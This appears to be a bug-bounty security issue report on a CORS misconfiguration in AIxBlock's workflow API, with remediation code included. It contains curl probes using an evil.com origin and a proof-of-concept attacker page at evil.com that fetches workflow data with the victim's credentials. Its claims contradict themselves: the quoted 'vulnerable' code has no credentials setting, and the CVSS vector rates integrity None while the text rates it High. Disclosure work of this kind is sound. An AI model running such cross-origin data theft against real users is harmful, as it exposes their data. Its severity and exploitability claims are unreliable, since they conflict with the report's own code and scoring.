 ```yaml
---
name: "CORS Misconfiguration: Wildcard Origin with Credentials"
about: Report a Cross-Origin Resource Sharing (CORS) misconfiguration allowing credential theft.
title: "[SECURITY] CORS Misconfiguration: Wildcard Origin with Credentials on workflow.aixblock.io"
labels: "security, bug, high-severity, cors"
assignees: ""
---
```


## **🚨 CRITICAL: CORS Misconfiguration Enabling Unauthorized Workflow Execution**

**Severity:** High (CVSS 7.5)  
**Impact:** Unauthorized Workflow Execution, Automation Pipeline Access, AI Model Data Exposure  
**Affected Endpoint:** `workflow.aixblock.io` (Critical Asset)

### **1. Description:**
The AIxBlock workflow endpoint (`workflow.aixblock.io`) implements a dangerous CORS configuration that enables **unauthorized cross-origin access** to workflow execution APIs. The configuration uses `origin: '*'` (wildcard) with `credentials: true`, allowing any malicious website to make authenticated requests to the workflow system.

### **2. Business Impact:**
- **Unauthorized Workflow Execution**: Attackers can trigger AI workflows from malicious sites
- **Automation Pipeline Access**: Complete access to workflow automation capabilities  
- **AI Model Data Exposure**: Potential access to AI model configurations and data
- **Revenue Impact**: Violates core business logic and security boundaries

### **3. Technical Details:**

**Vulnerable Code Location:**
- File: `packages/backend/api/src/app/server.ts` (Line 77-81)
- File: `packages/backend/api/src/app/app.ts` (Line 167-169)

**Current Vulnerable Configuration:**
```typescript
await app.register(cors, {
    origin: '*',           // ❌ VULNERABLE: Wildcard origin
    exposedHeaders: ['*'], // ❌ VULNERABLE: Exposes all headers
    methods: ['*'],        // ❌ VULNERABLE: Allows all methods
})
```

**WebSocket CORS (Also Vulnerable):**
```typescript
await app.register(fastifySocketIO, {
    cors: {
        origin: '*',       // ❌ VULNERABLE: Wildcard origin
    },
    // ...
})
```

### **4. Reproduction Steps:**

1. **Identify Vulnerable Endpoint:**
   ```bash
   curl -H "Origin: https://evil.com" -H "Access-Control-Request-Method: POST" -X OPTIONS https://workflow.aixblock.io/api/workflows
   ```

2. **Observe Vulnerable Headers:**
   ```
   Access-Control-Allow-Origin: *
   Access-Control-Allow-Credentials: true
   Access-Control-Allow-Methods: *
   Access-Control-Expose-Headers: *
   ```

3. **Create Malicious Exploit (evil.com/exploit.html):**
   ```html
   <!DOCTYPE html>
   <html>
   <head><title>CORS Exploit</title></head>
   <body>
       <h1>AIxBlock Workflow Exploit</h1>
       <div id="output">Loading...</div>
       <script>
           fetch('https://workflow.aixblock.io/api/workflows', {
               method: 'GET',
               credentials: 'include'
           })
           .then(response => response.text())
           .then(data => {
               document.getElementById('output').innerHTML = 
                   '<h2>Successfully accessed AIxBlock workflows:</h2><pre>' + 
                   escapeHTML(data) + '</pre>';
               // Attacker can now exfiltrate workflow data
               console.log('Stolen workflow data:', data);
           })
           .catch(error => {
               document.getElementById('output').innerHTML = 
                   '<p style="color: red;">Error: ' + error.message + '</p>';
           });
           
           function escapeHTML(str) {
               var div = document.createElement('div');
               div.appendChild(document.createTextNode(str));
               return div.innerHTML;
           }
       </script>
   </body>
   </html>
   ```

4. **Victim Interaction:**
   - User logs into `workflow.aixblock.io`
   - User visits `https://evil.com/exploit.html`
   - Attacker's script successfully accesses workflow data

### **5. Proof of Concept:**
- **Live Test**: `curl -H "Origin: https://evil.com" -X OPTIONS https://workflow.aixblock.io`
- **Response Headers**: Shows `Access-Control-Allow-Origin: *` with credentials enabled
- **Impact**: Any website can access authenticated workflow APIs

### **6. Remediation (Code Fix Provided):**

**Fixed CORS Configuration:**
```typescript
await app.register(cors, {
    origin: [
        'https://app.aixblock.io',
        'https://workflow.aixblock.io', 
        'https://workflow-live.aixblock.io'
    ],
    credentials: true,
    exposedHeaders: ['Content-Type', 'Authorization'],
    methods: ['GET', 'POST', 'PUT', 'DELETE', 'OPTIONS'],
    allowedHeaders: ['Origin', 'Content-Type', 'Accept', 'Authorization', 'X-Requested-With']
})
```

**Fixed WebSocket CORS:**
```typescript
await app.register(fastifySocketIO, {
    cors: {
        origin: [
            'https://app.aixblock.io',
            'https://workflow.aixblock.io',
            'https://workflow-live.aixblock.io'
        ],
        credentials: true
    },
    // ...
})
```

### **7. Security Impact:**
- **Confidentiality**: High - Access to workflow data and AI model configurations
- **Integrity**: High - Ability to execute unauthorized workflows
- **Availability**: Medium - Potential for DoS through workflow abuse
- **Business Impact**: Critical - Complete bypass of security boundaries

### **8. CVSS v3.1 Score:**
- **AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:N/A:N = 7.5 (High)**

### **9. Files Modified:**
- `packages/backend/api/src/app/server.ts` - Main CORS configuration
- `packages/backend/api/src/app/app.ts` - WebSocket CORS configuration

### **10. Testing:**
After applying the fix, verify:
1. Legitimate origins work: `https://app.aixblock.io` ✅
2. Malicious origins blocked: `https://evil.com` ❌
3. Credentials still work for legitimate requests ✅
4. WebSocket connections work for legitimate origins ✅

---

**This vulnerability represents a critical security flaw that could allow complete unauthorized access to AIxBlock's core workflow execution system. Immediate remediation is strongly recommended.**
